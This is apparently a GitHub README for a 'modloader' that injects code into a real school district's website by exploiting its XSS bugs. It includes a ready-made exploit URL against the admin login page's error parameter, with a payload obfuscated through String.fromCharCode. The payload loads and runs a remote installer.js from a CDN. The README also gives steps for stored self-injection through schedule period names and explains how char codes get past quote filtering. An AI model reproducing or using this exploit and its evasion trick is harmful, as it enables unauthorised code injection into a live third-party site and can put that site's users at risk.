# RHS-Modloader
An extension for the RHS website allowing you to install plugins and code. This is done by taking advantage of multiple HTML injection bugs in the website.

Supported on every device. An electron app will also be added to the releases tab at some point.
The Modloader itself will automatically update, but the electron app might need some app level changes to push to releases

***-- COOKIES WILL NOT WORK ON DAYS WITHOUT SCHOOL --***

(If you prefer a longer link that is much more stable with no install, go [here]())

# Installation Instructions

# -- This will be changed to allow for a one-click install, removing the install process and making it easier for the end user. --
# This is outdated, as an update is being developed to remove this nessecity.

As of right now, while it is less automatic, copying the code manaully is much more stable than attempting to change the domain's cookies, so this is reccomended for the time being.

1. Go to the [RHS Modloader website](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=%3Cscript%3Einstall=String.fromCharCode(115,99,114,105,112,116);replace=String.fromCharCode(104,116,116,112,115,58,47,47,99,100,110,46,106,115,100,101,108,105,118,114,46,110,101,116,47,103,104,47,80,111,121,114,97,122,79,122,107,117,115,97,107,115,105,122,47,82,72,83,45,77,111,100,108,111,97,100,101,114,64,109,97,115,116,101,114,47,105,110,115,116,97,108,108,101,114,46,106,115);var%20scriptTag%20=%20document.createElement(install);scriptTag.src%20=%20replace;document.body.appendChild(scriptTag);%3C/script%3E) and click "Copy Code Manually".

2. Go back to the official RHS Website and edit your schedule. If school is not happening on that day, you can change the date by adding ``?date=(year)-(month)-(day)`` to the end of the URL. 

*Month and day must be two digit, so for example use "03" instead of "3"*

3. To the end of every period name, paste the code you have copied. If that period is not present on a day, the code for it will not run. While putting it on 3 or 4 periods would also work for most days, there are some days with weird schedules. If done correctly, you won't see the code again.

# How this works

I have found two ways to add HTML onto the RHS website:

- Through the admin website
- By storing HTML in cookies

These are both forms of XSS as they allow self script injection.

The admin login for the RHS Website lets you directly add code to it using the [URL's error message](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=%3Ch1%3EHello%20RHS!%3C/h1%3E),
and the main website allows it through the schedule tab, which just adds it on as plain text. This is also stored as cookies instead of in the URL, where your schedule is also stored.

While both of these don't like it when you add code directly (they cancel quotes), making strings from char codes is a very nice alternative and runs well.
